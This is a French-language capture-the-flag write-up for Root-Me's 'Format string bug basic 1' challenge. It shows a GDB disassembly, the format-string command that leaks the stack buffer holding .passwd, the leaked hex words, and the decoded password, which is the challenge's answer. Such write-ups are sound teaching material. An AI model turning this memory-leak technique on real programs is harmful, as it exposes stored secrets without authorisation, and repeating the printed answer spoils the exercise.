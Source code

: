 # [ELF x86 - Format string bug basic 1](https://www.root-me.org/fr/Challenges/App-Systeme/ELF-x86-Format-string-bug-basic-1)

L'objectif de ce challenge est d'exploiter une vulnérabilité de type _format string_ dans le programme pour récupérer le mot de passe stocké dans le fichier `.passwd`.

## Localisation de l'adresse du buffer

On analyse le binaire avec GDB.

```bash
gdb ./ch5
```

On désassemble la fonction `main` pour identifier l'adresse du buffer.

```
(gdb) disassemble main
Dump of assembler code for function main:
...
   0x08048575 <+79>:    pushl  -0x30(%ebp)
   0x08048578 <+82>:    push   $0x20
   0x0804857a <+84>:    lea    -0x2c(%ebp),%eax
   0x0804857d <+87>:    push   %eax
   0x0804857e <+88>:    call   0x80483b0 <fgets@plt>
...
End of assembler dump.
```

On observe que le buffer utilisé pour stocker le contenu de `.passwd` est localisé à `-0x2c(%ebp)`.

## Exploitation de la vulnérabilité

Sachant que le buffer est à `-0x2c(%ebp)`, le contenu du buffer est accessible à partir du 11ème paramètre (0x2c = 44). On peut donc exploiter la vulnérabilité en affichant les valeurs hexadécimales des 4 premiers mots à partir du 11e paramètre :

```bash
./ch5 '%11$08x %12$08x %13$08x %14$08x'
```

En exécutant la commande, on obtient les valeurs suivantes :

```
39617044 28293664 6d617045 bf000a64
```

En convertissant les valeurs hexadécimales en ASCII, on obtient le mot de passe : `Dpa9d6)(Epamd`.
